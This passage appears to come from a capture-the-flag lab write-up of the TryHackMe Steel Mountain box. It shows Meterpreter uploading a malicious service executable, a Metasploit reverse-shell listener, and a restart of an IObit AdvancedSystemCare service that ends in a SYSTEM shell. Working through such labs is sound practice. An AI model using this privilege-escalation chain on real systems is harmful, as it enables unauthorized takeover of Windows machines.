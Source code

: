 Now we can upload the payload.
```
meterpreter > upload ~/Desktop/THM/steelmountain/ASCservice.exe
[*] uploading  : /home/jake/Desktop/THM/steelmountain/ASCservice.exe -> ASCservice.exe
[*] Uploaded 15.50 KiB of 15.50 KiB (100.0%): /home/jake/Desktop/THM/steelmountain/ASCservice.exe -> ASCservice.exe
[*] uploaded   : /home/jake/Desktop/THM/steelmountain/ASCservice.exe -> ASCservice.exe
```

Next step is to setup our listener in msfconsole. Once we connect using the payload above, we will have a privileged shell.
```
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
```

Once we set our lhost and lport we can run the listener. Now we can switch back to the listener, start a normal shell, and restart the process to gain our privileged shell.
```
meterpreter > shell
C:\Program Files (x86)\IObit\Advanced SystemCare>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2344
        FLAGS              : 
```

Now we have root.
```
C:\Windows\system32>whoami
whoami
nt authority\system
```
